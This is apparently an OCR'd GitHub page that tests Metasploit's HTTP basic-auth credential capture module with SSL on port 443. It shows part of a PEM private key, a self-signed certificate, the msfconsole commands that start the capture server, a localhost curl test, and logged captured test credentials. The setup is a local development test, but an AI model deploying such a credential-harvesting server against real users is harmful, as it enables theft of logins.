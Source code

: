 ```
XC/j2vvsoFswFqqSG8ild0CDC8OC93pBY0XzMfEZwdULoUKKUQBcwwIWv/VM3ERC
1IPESnuYgbpo4t9bO+cuVlGD+ZoCXJ8bkmtyYaWjvc/4VeHJG7hb9WfHqwKBgAe5
L17nVgNRRkhC9PWpb3sdwKNRAx9qsRDyQuoRhMGX2lBEz6zNKQEppzuy/ZVAcZcR
w97k8O0XEG455ZFe3JknFeNJe9vBC5k6QKFCRXY382VToaR3W0fOO5rDcSlZE+UA
PCu+Vj0WwVIzA0jHqfphWWaeub/NWSe8MLhG/76VAoGBALTnftXB/b45xkgNEIZ3
7WOsfvGo23tlXSQdCNNOn6YKptqYX88jeihcKEvGoIBH+LfV/GfD2P1d227kHyBZ
FoZ+2dUwVXO2UP5j3WlxBleOqk0rTbIri/Pj4oCajAR4pXDIviUD+bUFojyFaysj
It3LYabipjgG3NjDxYBMyJnt
-----END PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIDazCCAlOgAwIBAgIUXlRMetgIkrPIiamQGIBKbcEuT1IwDQYJKoZIhvcNAQEL
BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0xODExMDYwMDQ2NDFaFw0xOTEx
MDYwMDQ2NDFaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
AQUAA4IBDwAwggEKAoIBAQCmniuSmx1h57hKXxBCfCOfsfJatMEtsrTHFCC0GDvI
IHGot8oniVKes7yK0w8GSr0LeJgH23QMf/N0SZlF6BRc0GELAC7qPa9VJ8HPYYVb
O/VaqXMy83y7YuSh6QlP/DksHt0W0rfvcM36ypHiZ3LIbaz8VuAUyIU5Qa6G+TNv
wClhQnaX3TLN0kk31pAwwuSRNvSYvmUih4HAeN29IJyoiXH+GEjw7wBbm9dkbU1D
I71zSZyO/Tfi/2SwDwaTKCucW7tUEd9ey6AU5hB6jGpc9N7rMYqV82mLogsXGaRD
Wh/tt9hghGWAX3MfD7EebQqYr4vQssoisU62ct4DtCrNAgMBAAGjUzBRMB0GA1Ud
DgQWBBR+MfL8LopA4OaIRLGK1gof3u+PIDAfBgNVHSMEGDAWgBR+MfL8LopA4OaI
RLGK1gof3u+PIDAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBe
IGmZr3wlO32b25qj/4qB7ewukwF6uaS4OQh4VLlUk8uYsqoGfvehAaNNJsu1oKO5
XpShHeyEkpwzgx0mdCmQSB3JKseFYuZTgP9GP00EXuHYl2V+quPFN17fq0AgYN6K
TFDwzYbhWyFGz7k++i23w0/dwvL2dLH+bgdHYU49rhlZIAu7PgbyIuhP+M2ltcjt
NDO8po38u2ba52E56abfg0ZlFBqsua2s1TPHIyQ9iovTPMg1E5UTTGebaN6/BaMh
Oj6N43ld9EONST6BhP3v1buoWHi1FMouocrUkUDuahiHoLlK4ERSUrb4uNnwko24
WdNCCmA8APA1qf2BYVqs
-----END CERTIFICATE-----
msf5 > use auxiliary/server/capture/http_basic 
msf5 auxiliary(server/capture/http_basic) > set ssl true
ssl => true
msf5 auxiliary(server/capture/http_basic) > set srvport 443
srvport => 443
msf5 auxiliary(server/capture/http_basic) > set sslcert /root/metasploit-framework/selfsigned.pem
sslcert => /root/metasploit-framework/selfsigned.pem
msf5 auxiliary(server/capture/http_basic) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(server/capture/http_basic) > 
[*] Using URL: https://0.0.0.0:443/4w0tML
[*] Local IP: https://192.168.2.117:443/4w0tML
[*] Server started.
[+] 127.0.0.1 - Credential collected: "admin:password123" => /4w0tML
```

Clients:

```
root@kali:~# curl -k --user admin:password123 https://127.0.0.1/4w0tML
&lt;!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
&lt;html>&lt;head>
&lt;title>404 Not Found&lt;/title>
&lt;/head>&lt;body>
&lt;h1>Not Found&lt;/h1>
&lt;p>The requested URL was not found on this server.&lt;/p>
&lt;hr>
&lt;address>Apache/2.2.9 (Unix) Server at  Port 443&lt;/address>
&lt;/body>&lt;/html>
```
